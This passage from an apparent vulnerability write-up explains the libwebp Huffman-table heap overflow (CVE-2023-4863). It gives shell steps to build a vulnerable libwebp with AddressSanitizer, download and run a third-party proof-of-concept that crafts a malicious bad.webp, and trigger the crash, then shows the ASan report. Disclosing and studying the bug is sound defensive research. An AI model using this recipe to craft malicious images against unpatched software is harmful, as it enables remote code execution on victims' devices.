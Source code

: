 But the BuildHuffmanTable function is writing values to the output table using the "ReplicateValue" operation mentioned earlier. What if we built 4 valid Huffman trees that resulted in 4 maximally sized output tables, and then supplied an invalid Huffman tree for the last table? Could we get ReplicateValue to write out-of-bounds from an invalid starting key prior to the final consistency check on the node count? The answer is: yes, we can.

Here's how to replicate the bug:

  # checkout webp
$ git clone https://chromium.googlesource.com/webm/libwebp/ webp_test
$ cd webp_test/
  # checkout vulnerable version
$ git checkout 7ba44f80f3b94fc0138db159afea770ef06532a0
  # enable AddressSanitizer
$ sed -i 's/^EXTRA_FLAGS=.*/& -fsanitize=address/' makefile.unix
  # build webp (deps: libjpeg-dev libpng-dev libtiff-dev libgif-dev)
$ make -f makefile.unix
$ cd examples/
  # fetch mistymntncop's proof-of-concept code
$ wget https://raw.githubusercontent.com/mistymntncop/CVE-2023-4863/main/craft.c
  # build and run proof-of-concept
$ gcc -o craft craft.c
$ ./craft bad.webp
  # test trigger file
$ ./dwebp bad.webp -o test.png
=================================================================
==207551==ERROR: AddressSanitizer: heap-buffer-overflow on address 0x626000002f28 at pc 0x56196a11635a bp 0x7ffd3e5cce90 sp 0x7ffd3e5cce80
WRITE of size 1 at 0x626000002f28 thread T0
#0 0x56196a116359 in BuildHuffmanTable (/home/isosceles/source/webp/webp_test/examples/dwebp+0xb6359)
#1 0x56196a1166e7 in VP8LBuildHuffmanTable (/home/isosceles/source/webp/webp_test/examples/dwebp+0xb66e7)
#2 0x56196a0956ff in ReadHuffmanCode (/home/isosceles/source/webp/webp_test/examples/dwebp+0x356ff)
#3 0x56196a09a2b5 in DecodeImageStream (/home/isosceles/source/webp/webp_test/examples/dwebp+0x3a2b5)
#4 0x56196a09e216 in VP8LDecodeHeader (/home/isosceles/source/webp/webp_test/examples/dwebp+0x3e216)
#5 0x56196a0a011b in DecodeInto (/home/isosceles/source/webp/webp_test/examples/dwebp+0x4011b)
#6 0x56196a0a2f06 in WebPDecode (/home/isosceles/source/webp/webp_test/examples/dwebp+0x42f06)
#7 0x56196a06c026 in main (/home/isosceles/source/webp/webp_test/examples/dwebp+0xc026)
#8 0x7f7ea8a8c082 in __libc_start_main ../csu/libc-start.c:308
#9 0x56196a06e09d in _start (/home/isosceles/source/webp/webp_test/examples/dwebp+0xe09d)
0x626000002f28 is located 0 bytes to the right of 11816-byte region [0x626000000100,0x626000002f28)
allocated by thread T0 here:
#0 0x7f7ea8f2d808 in __interceptor_malloc ../../../../src/libsanitizer/asan/asan_malloc_linux.cc:144
#1 0x56196a09a0eb in DecodeImageStream (/home/isosceles/source/webp/webp_test/examples/dwebp+0x3a0eb)
SUMMARY: AddressSanitizer: heap-buffer-overflow (/home/isosceles/source/webp/webp_test/examples/dwebp+0xb6359) in BuildHuffmanTable
...
